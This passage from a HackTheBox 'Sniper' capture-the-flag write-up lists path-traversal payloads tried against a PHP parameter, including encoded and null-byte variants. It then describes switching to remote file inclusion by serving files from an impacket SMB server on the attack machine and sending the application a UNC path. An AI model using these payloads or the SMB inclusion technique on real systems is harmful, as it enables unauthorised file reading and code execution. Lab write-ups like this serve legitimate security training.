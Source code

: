 
I also tried the following payloads which all faild:

```bash
blog-en.php/../user/db.php
....//user.db.php
..////user.db.php
%252e%252e%252fuser%252fdb.php
....\/user/db.php
../user/db/.php%00
```

But supplying a full path, seems to work:

![full-path-13.5](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sniper/img/full-path-13.5.png)


We can try to enumerate useful files on the target in this manner, though it's not the most efficient strategy, so I started looking into remote file inclusion instead. At first, I hosted a python web server on my attack machine, and supplied the URL of my server to the application, this didn't work. 


Instead, because it's a Windows machine, I hosted an SMB server on my attack machine using:

```bash
impacket-smbserver -smb2support s .
```

And sent the UNC path of my server to the application:

![unc-payload-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Sniper/img/unc-payload-14.png)
